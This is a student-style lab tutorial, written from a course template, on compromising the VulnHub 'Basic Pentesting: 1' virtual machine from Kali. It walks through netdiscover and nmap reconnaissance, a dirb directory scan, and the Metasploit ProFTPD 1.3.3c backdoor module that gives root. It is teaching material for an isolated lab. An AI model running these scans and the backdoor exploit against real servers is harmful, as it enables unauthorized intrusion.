




= Basic Penetration Testing

Author: Matt Hoff

== Intro

Describe the goals and purpose of the tutorial here.
The goals and purpose of this exercise are to introduce the
reader to the world of penetration testing using an easy vulnerable
virtual machine. They will a few different tools inside kali to "boot2root"
the machine.


== Prerequisites

The "*" is a bulleted list.

* VirtualBox
* Kali Virtual Machine
* Basic Pentesting: 1 by Josiah Pierce from https://www.vulnhub.com/entry/basic-pentesting-1,216/[Vuln Hub]

== Instructions

Guide the person through the steps. Starting a line with a period is an automatically numbered list.

=== Setup Vulnerable Machine and Kali

. Download and install vulnerable machine.
. To install it just double click ova file in the folder to import virtual appliance
. Click the "Reinitialize the MAC address of all network cards", sand then click import.
+
image::Import.png[]
. In Virtualbox make sure that the network adapter for both of the VMs are set to "Host-only Adapter"
. In Virtualbox start the Kali Linux and the csec
. For the remainder of this lab we will ignore csec and use the Kali VM for the rest of this challenge

=== Info Gathering
. Open a terminal cause this is where most of the attacks will take place
. First we have to find out csec's IP address
.. We will be using a ARP reconnaissance tool called "netdiscover"
.. Use the command *ifconfig* to find the IP address for the Kali VM and keep note of it.
.. Run this command to find the IP address for the csec VM replacing the IP address with the broadcast address of the Kali VM:
.. Look at the addresses of the machines and the address that isn't the one of the Kali VM
 and the one that isnt ????.????.????.1 since that would be your router will be the victim's IP Address.
 Keep note of that. I will just put it in a text document. If you want you can use a
 program to keep track of the info gathering.
+

....
netdiscover -i eth0 -r 192.168.56.0/24
....

Please note that whenever I use the IP Address 192.168.56.102 you should be using the
IP address that you found running that command

. Now that we have the IP Address we will find out what we attack by using NMAP.
NMAP is the most infamous of all port scanning tools. I have found a NMAP command with useful
flags that I like to use, but if you want you can search the web for other flags.
Here is an explanation of the flags I gave NMAP:

 -v: verbose output
 -sV: Probe the ports and report back the service/version info
 -A: Enable OS detection, version detection, script scanning, and traceroute
 --reason: Why is the port is a particular state
 -p-: All ports
 -oN Desktop/scan.txt: Export results in a normal text file and store it on the desktop

....
nmap -v -sV -A --reason -p- 192.168.56.102 -oN Desktop/scan.txt
....

If you examine the result you will see 3 ports are open. Those are 21 for a FTP server
using ProFTPD 1.3.3c, 22 for SSH using OpenSSH, and 80 for an Apache webserver over http.
Seeing this we have a few options we can try.

=== Investigation

We will start with the webserver to see if we can figure anything out.

. Open Firefox in Kali
+


. Enter victims IP address in url.
+


Well what the heck you see a landing page saying "It works!", but nothing more.
It is really weird to have webserver but nothing on it.

. Next we will see if they have an directories on the server using the command *dirb*.
Again I used flags just to make this a little easier.

 -i: Not case sensitive
 -o Desktop/web.txt: Store output in a web.txt on the desktop.
+
....
dirb http://192.168.56.102/ /usr/share/dirb/wordlist/common.txt -i -o Desktop/web.txt
....
+
Looking at the info we got there is a "secret" directory listing some WordPress content.
You may be able to find info here, but that is not what I am going to show you.

. With the webserver not giving us the info we want we will next try the FTP server.
Since we have a version from the NMAP scan we can just do a quick google search of it.
You will notice one of the first few results is a link to rapid7 showing a backdoor.
This is the jackpot we needed. They also walk you through the proccess of executing it.

+


=== Attack

. Launch MetaSploit
+


. Use the commands rapid7 says to execute the backdoor:
+
....
use exploit/unix/ftp/proftpd_133c_backdoor
show targets
set target 0
show options
set RHOST 192.168.56.102
....
. To check you are root enter the command *whoami*. It should just come back root.

+



+
Congrats you now have root access to the victim's computer. While here you can snoop
around if you would like.


. Step five. Compile with the following command:
+
```
asciidoctor-pdf tutorial.adoc
```

== Challenge

Provide some meaningful ways for the learner to apply their knowledge in a new way.

. There are other ways to exploit this machine so explore.
.. For instance you could look at the wordpress plugins or brute force the SSH login.
. Also just go out and get other Vulnerable Virtualmachines and attempt to "hack" them. Do not hack anything
that you should not be hacking.

== Reflection

Provide some thought questions that help the learner make sense of how the tutorial fits in the bigger picture.
